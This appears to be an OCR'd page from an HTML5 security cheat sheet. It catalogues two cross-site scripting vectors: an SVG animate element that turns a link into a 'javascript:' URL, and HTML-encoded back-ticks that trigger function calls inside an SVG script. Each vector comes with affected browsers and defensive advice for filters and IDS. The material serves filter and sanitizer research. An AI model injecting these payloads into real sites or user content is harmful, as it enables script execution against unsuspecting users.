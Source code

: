 ```
<svg> <a  xlink:href="?"> <circle r="400"></circle> <animate attributeName="xlink:href" begin="0" from="javascript:alert(1)" to="&" /> </a> 
```

Avoid inline-SVG in combination with user-generated content. In case SVG needs to be used, avoid potentially harmful content for "to", "from", "values" and "by" attributes.

*   firefox 25.0
*   firefox latest

*   opera 15.0

*   opera latest

*   chrome 30.0

*   chrome latest

*   safari 5.0

*   safari latest

*   html5

*   svg
*   from
*   inline
*   xss
*   passive

*   [`jsbin.com/uxadon/3`](http://jsbin.com/uxadon/3)

*   [`www.w3.org/TR/SVG/animate.html#FromAttribute`](http://www.w3.org/TR/SVG/animate.html#FromAttribute)

reporter：.mario

### Executing JavaScript using ES6 Template Strings in SVG#141test

The new language features shown in #140 can also be used in the context of an SVG image. Here, the named entity of the back-tick, the ` can be used to initiate execution of a function or method.

```
<svg><script> alert&DiacriticalGrave;1&DiacriticalGrave; <p> <svg><script> alert&grave;1&grave; <p> 
```

Make sure that your IDS, filter and other protective systems are aware of the fact, that in SVG, HTML-encoded back-ticks (U+0060) are now capable of initiating execution of methods and functions in JavaScript.

*   firefox 34.0
*   firefox latest

*   es6

*   javascript
*   backtick
*   template
*   svg
